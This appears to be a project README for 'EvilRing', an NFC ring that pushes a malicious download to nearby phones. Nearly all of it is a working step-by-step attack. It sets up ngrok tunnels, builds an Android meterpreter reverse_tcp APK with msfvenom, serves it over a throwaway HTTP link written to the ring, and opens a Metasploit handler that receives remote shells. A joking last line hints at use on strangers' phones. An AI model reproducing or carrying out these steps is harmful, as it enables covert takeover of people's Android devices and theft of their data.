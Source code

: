 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz`

`tar -xzvf ngrok-v3-stable-linux-amd64.tgz`

`chmod +x ngrok`

`sudo mv ngrok /usr/local/bin/ngrok`

`rm ngrok-v3-stable-linux-amd64.tgz`

`ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`


2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended -

Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080`

`./ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole -q`

(inside msfconsole)

`use exploit/multi/handler`

`set payload android/meterpreter/reverse_tcp`

`set LHOST 0.0.0.0`

`set LPORT 4242`

`run`
  
7.  (Dont) go an hold onto some phones!
